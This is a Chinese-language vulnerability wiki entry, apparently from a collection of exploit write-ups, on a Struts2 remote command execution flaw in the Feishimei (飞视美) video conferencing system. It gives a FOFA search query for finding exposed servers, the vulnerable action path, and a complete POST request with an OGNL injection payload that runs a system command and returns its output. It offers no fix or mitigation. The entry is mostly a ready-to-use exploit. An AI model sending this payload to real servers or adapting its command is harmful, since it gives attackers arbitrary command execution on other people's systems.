 # 飞视美 视频会议系统 Struts2 远程命令执行漏洞

## 漏洞描述

飞视美 视频会议系统 Struts2组件存在远程命令执行漏洞，通过漏洞攻击者可执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>飞视美 视频会议系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="飞视美-视频会议系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1630910934893-ef391d6e-93b4-4596-b185-93727d3b5e21.png)

存在漏洞的路径为

```python
/confinfoaction!showallConfinfos.action
```

发送请求包

```python
POST /confinfoaction!showallConfinfos.action HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 669
Host: 
Connection: Keep-Alive

('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'ipconfig\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

![img](/assets/PeiQi-Wiki/img/1630911232289-4b99e8bb-61d9-4f5a-9829-4c4ba96075ef.png)